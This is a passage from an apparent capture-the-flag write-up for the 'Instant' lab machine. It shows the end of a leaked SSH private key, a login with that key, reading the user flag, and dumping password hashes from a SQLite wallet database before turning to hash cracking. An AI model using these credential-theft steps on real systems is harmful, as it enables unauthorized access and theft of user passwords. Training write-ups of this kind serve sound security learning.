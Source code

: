 ```
5VNy/4CNnMdXALx0OMVNNoY1wPTAb0x/Pgvm24KcQn/7WCms865is11BwYYPaig5F5Zo1r
bhd6Uh7ofGRW/5AAAAEXNoaXJvaGlnZUBpbnN0YW50AQ==
-----END OPENSSH PRIVATE KEY-----
```

We give it the proper permissions.

```
chmod 600 id_rsa_shirohige
```

And connect to the machine.

```
ssh shirohige@instant.htb -i id_rsa_shirohige

shirohige@instant:~$
```

We now can read the user flag.

```
cd
cat user.txt
```

In the home directory of the user, we have found a database in sqlite.

```
cd projects/mywallet/Instant-Api/mywallet/instance/
ls

instant.db
```

Lets look for credentials or something to use to escalate privileges in this databse.

```
sqlite3 instant.db
```

Show the tables.

```
sqlite> .tables
wallet_transactions  wallet_users         wallet_wallets
```

Get the users and hashed passwords.

```
sqlite> select username, password from wallet_users;

instantAdmin|pbkdf2:sha256:600000$I5bFyb0ZzD69pNX8$e9e4ea5c280e0766612295ab9bff32e5fa1de8f6cbb6586fab7ab7bc762bd978
shirohige|pbkdf2:sha256:600000$YnRgjnim$c9541a8c6ad40bc064979bc446025041ffac9af2f762726971d8a28272c550ed
```

The hashes seem to be using Werkzeug. To crack them we will use a toll called `Werkzeug-Cracker`.
